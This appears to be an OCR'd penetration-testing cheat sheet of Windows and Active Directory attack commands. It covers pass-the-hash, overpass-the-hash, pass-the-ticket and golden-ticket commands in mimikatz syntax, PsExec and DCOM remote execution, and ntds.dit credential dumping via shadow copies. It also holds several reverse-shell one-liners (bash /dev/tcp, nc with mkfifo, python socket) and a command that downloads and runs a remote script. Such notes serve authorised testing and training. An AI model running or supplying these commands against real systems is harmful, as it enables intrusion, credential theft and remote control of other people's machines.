 					Enter-PSSession <ID>
			PsExec:
				PsExec64.exe -i  \\<HOST> -u <DOMAIN\USER> -p <PASSWORD> <COMMAND>
			PtH:
				impacket-wmiexec -hashes :<NTLMHASH> <USERNAME>@<HOST>
			Overpass the Hash
				sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell
			PtT:
				sekurlsa::tickets /export
				kerberos::ptt <*.kirbi>
			DCOM:
				$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<TARGETIP>"))
				$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"/c <powersshell -nop -w hidden -e <REVSHELL>>","7")
			GoldenTicket:
				kerberos::golden /user:<OurUser> /domain:<DOMAIN> /sid:<SID> /krbtgt:<NTLMHASHofkrbtg> /ptt
			ShadowCopy:
				vshadow.exe -nw -p  C:
				copy <Shadow copy device name> C:\ntds.dit.bak
				reg.exe save hklm\system c:\system.bak
				impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL (on kali)
	
	Misc:
		Files:
			certutil.exe -urlcache -split -f <PathToFile>
			from: nc -w 3 <IP PORT> < <FILE> to: nc -l -p <PORT> > <FILE>
			Authenticating with the user's credentials: iwr -UseDefaultCredentials <URL>
			Invoke-WebRequest -Uri "<URL>" -OutFile <FilePath>
	
		Shells:
			bash -i >& /dev/tcp/IP/PORT 0>&1
			bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"
			rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP PORT> >/tmp/f
			python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
		Random:
			klist
	
			kerberos::purge
			misc::cmd 
	
	
			IEX (New-Object System.Net.Webclient).DownloadString("<URL>");powercat -c <IP> -p <PORT> -e <COMMAND> 
	
			smbserver.py -smb2support myshare /Respondershare
			runas /user:<username> cmd
			Invoke-RunasCs -Username <USERNAME> -Password <PASSW> -Command "whoami" (after import)
	
			WPAD: responder -I tun0 -wv
	
			ldapsearch -v -x -b "DC=<HOSTNAME>,DC=<DOMAIN>" -H "ldap://<IP>" "(objectclass=*)"
	